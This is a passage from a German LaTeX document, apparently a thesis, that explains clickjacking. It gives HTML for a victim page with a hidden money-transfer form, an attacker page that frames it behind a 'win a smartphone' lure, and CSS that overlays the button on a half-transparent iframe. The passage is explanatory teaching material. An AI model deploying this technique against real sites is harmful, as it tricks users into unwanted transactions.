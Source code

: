\textbf{\textit{Szenario 1:}}

Bei diesem HTML-Code gibt es nur ein Formular mit einem Absenden-Button. Wenn man auf diesen Button drückt, wird die Aktion \texttt{''dotransfer''} ausgeführt, indem der Benutzer zur Anschauung weitergeleitet wird\cite{cjd13}.\\

\begin{Listing}[h]
	\begin{lstlisting}
<html>
	<head>
	<title>Opferseite</title>
	</head>
	<body>
	<form action="/dotransfer" method="post" />
		<input type="hidden" value="1000" name="amount" />
		<input type="hidden" value="[RND-ID]" name="csrftoken" />
		<input type="submit" value="submit" />
	</form>
	</body>
</html>
	\end{lstlisting}
	\caption{Opferseite}
	\label{lst:cj1}
\end{Listing}

Durch unten geschriebene HTML-Code wird eine zweite Seite erstellt, welche die erste Seite einbindet\cite{cjd13}.;\\

\begin{Listing}[h]
	\begin{lstlisting}
<html>
	<head>
	<title>Hack</title>
	</head>
	<body>
	<button id="clickme"/>Gewinne ein Smartphone</button>
	<iframe src="http://opferseite.de/inittransfer.html" id="frame"/><iframe>
	</body>
</html>
	\end{lstlisting}
	\caption{Hackseite}
	\label{lst:cj2}
\end{Listing}

Es wird jetzt noch ein wenig CSS gebraucht, um das Iframe halbdurchsichtig zu machen, und den \texttt{clickme} Button über den Absenden-Button des Iframes zu legen\cite{cjd13}.\\

\begin{Listing}[h]
	\begin{lstlisting}
#clickme {
	position:absolute;
	top:0px;
	left:0px;
	color: #ff0000;
}

#frame {
	width: 100%;
	height: 100%;
	opacity: 0.5;
}
	\end{lstlisting}
	\caption{CSS}
	\label{lst:cj3}
\end{Listing}

Im Endeffekt sieht der Benutzer nur noch den Button mit der Aufschrift „Gewinn ein Smartphone“. Darüber liegt jedoch das unsichtbare Iframe. Möchte der Benutzer den Gewinn ergattern betätigt er nicht den Gewinnbutton, sondern den Absenden-Button im Iframe, da dieser über dem Gewinn-Button liegt. Damit wird die Aktion im Hintergrund ausgeführt, und der Hacker hat seiner Ziel erreicht\cite{cjd13}.
